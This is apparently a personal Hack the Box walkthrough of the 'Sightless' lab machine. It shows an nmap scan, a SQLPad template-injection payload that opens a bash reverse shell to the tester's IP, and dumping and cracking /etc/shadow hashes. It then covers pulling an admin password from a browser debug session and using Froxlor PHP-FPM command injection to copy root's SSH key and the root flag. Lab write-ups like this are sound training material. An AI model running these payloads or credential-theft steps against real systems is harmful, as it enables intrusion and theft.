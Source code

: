 ```yaml
---
title: Sightless - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sightless.png
---
```

---
title: 2024-10-12-Sightless - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Sightless.png
---
### Scan
```
└─$ nmap -sV -sC -p- --open 10.10.11.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 14:50 EDT
Nmap scan report for 10.10.11.32
Host is up (0.12s latency).
Not shown: 56430 closed tcp ports (conn-refused), 9102 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/9%Time=6706D0C3%P=aarch64-unknown-linux-g
SF:nu%r(GenericLines,A0,"220 ProFTPD Server \(sightless\.htb F
SF:TP Server\) \[::ffff:10\.10\.11\.32\]
500 Invalid comman
SF:d: try being more creative
500 Invalid command:
SF:0try being more creative
");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.18 seconds
```

### Enum
lmao ftp prolly no go and ssh late stage
etx host
gobuster and wfuzz come up empy, but browsing sight we find sqlpad.sightless.htb. add to etc hosts
we find its version 6.10.0. Theres a vuln! https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
follow the procedure to make connection with payload
`{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"') }}`
Once we click test, we've got root. weird asf no access. we've got root as svc?
cat /etc/shadow for hashes
take and crack michael hash with john
`insaneclownposse`. now ssh in

USER:c73af69fadc2c24d1687ad3ac5154fd5

when we `netstat -tnlp`, we see port 8080 servicing, where it didnt in our scans
port forward ssh with `ssh -v -N -L 8080:localhost:8080 michael@sightless.htb`
visit `http://127.0.0.1:8080`, were met with a froxlor login
install brave >:( and go to `brave://inspect/#devices` . run netstat again and forward every port => 3 digits.
3306, 8080, 44905, 44603, 33060, 3000, 37761. create instances for all of these in brave until the froxlor appears
then, inspect, go to network tab, and probe index php and wait for the login. it'll be under payload. what the fuck
![Image](/assets/Screenshot 2024-10-09 at 4.45.19 PM (2).png)
`ForlorfroxAdmin`
we're in ![Image](/assets/Screenshot 2024-10-09 at 4.47.43 PM.png)
We can see a php configuration that allows command injection. lets copy rt flag to tmp dir. you could also copy root rsa to tmp dir and ssh in that way. ill do the latter.
create new php version under fpm versions.
put this command in `cp /root/.ssh/id_rsa /tmp/id_rsa`
then, go to system setting, php fpm, and stop and restart the service. saving each time.

```
cp /root/root.txt /tmp/root.txt
```
check to see if there, then update perms same way
`chmod 644 /tmp/root.txt`
fuck this box omm
ROOT:859ac83ce4810139ed542f1d23aee710
